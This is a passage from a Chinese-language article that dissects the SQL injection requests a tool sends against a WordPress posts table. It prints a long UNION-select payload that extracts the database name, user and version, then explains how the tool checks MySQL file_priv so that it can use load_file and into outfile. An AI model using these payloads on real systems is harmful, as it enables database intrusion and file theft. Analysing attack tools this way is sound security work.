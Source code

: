 我们接着往下看（还是点击start后发送的请求）：

```
/*获取数据库相关信息*/
SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d)--

```

这玩意到底是什么神秘的东西呢？我们不妨在Navicat和FireFox里面瞅瞅：

￼![enter image description here](http://drops.javaweb.org/uploads/images/93437f6400dfb43a274492998be75cf2000fdaa3.jpg)

FireFox执行的结果：

![enter image description here](http://drops.javaweb.org/uploads/images/3b000b17e4d3b2618853c78e24e330cbcf321cf9.jpg)

让我们来还原上面的那句废话：

```
select file_priv from mysql.user where user=root

```

￼![enter image description here](http://drops.javaweb.org/uploads/images/a054196dcd2ee2aaa3bfdbb2a16c50c83c089039.jpg)

上面很长很臭的SQL翻译过来就这么短的一句查询的结果就一个得到的信息就是：

有没有file_priv权限。而file_priv应该就是文件读写权限了（没看手册，应该八九不离十）。如果不是Y是N那就不能load_file 、into outfile、dumpfile咯。

接着看下一条SQL：
